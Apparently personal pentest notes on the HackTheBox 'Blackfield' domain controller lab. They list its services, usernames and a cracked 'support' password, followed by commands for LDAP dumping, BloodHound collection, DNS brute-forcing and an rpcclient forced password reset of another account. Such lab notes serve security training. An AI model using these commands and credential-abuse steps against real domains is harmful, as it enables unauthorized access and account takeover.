 # Blackfield Notes

## Data 

IP: 10.129.229.17
OS:  DC01 Windows 10.0 Build 17763 x64 
Arch:
Hostname: DC01
DNS: BLACKFIELD.local
Domain: BLACKFIELD.local
Domain SID: S-1-5-21-4194615774-2175524697-3563712290
Machine Purpose: Domain Controller 
Services: 53 dns ,88 kerberos ,135 rpc,389,445,593,3268,5985, smb 445 (signing:True) (SMBv1:False), 
Service Languages:
Users: dc01, audit2020,support,svc_backup,lydericlefebvre and lots of generated
Email and Username Formatting:
Credentials:
```
support : #00^BlackKnight
```


#### Mindmap-per Service

- OS detect, run generate noting for nmap - check nmap

- 53
	- no domain transfer
	- `for ns in $(cat /usr/share/seclists/Discovery/DNS/$list.txt); do host $ns.$domain.$tld; done`
	- amass - found nothing..

- 88
- 135
	- NullAuth but not very good
	- CHECK support's access
- 389
- 445
	- Guest get read for `IPC$` and `profile$`
	- forensics share - probably audit2020
	- profile seems like a rabbithole of profiles
	- support has NETLOGON and SYSVOL
	- support spider plus
	- got sysvol share - policy 
- 593
- 3268
- 5985
	- 
-
-
```
ldapsearch -x -H ldap://10.129.229.17 -D 'support@BLACKFIELD.local' -w '#00^BlackKnight' -b "DC=BLACKFIELD,DC=local" | tee -a support-DUMP-entire-domain.ldapsearch

python3 bloodhound.py --dns-tcp -c all -d BLACKFIELD.local -dc DC01.BLACKFIELD.local -ns 10.129.229.17 -u support -p '#00^BlackKnight'

```

- support forcepassword audit2020, but it might acommplish much
- svc_backup is the only member of remote mamagement
-
-
-
-
-



#### Todo List

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse
```
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

- rescan tcp - done
- password spray - done
- profile seems like a rabbithole of profiles -check potentially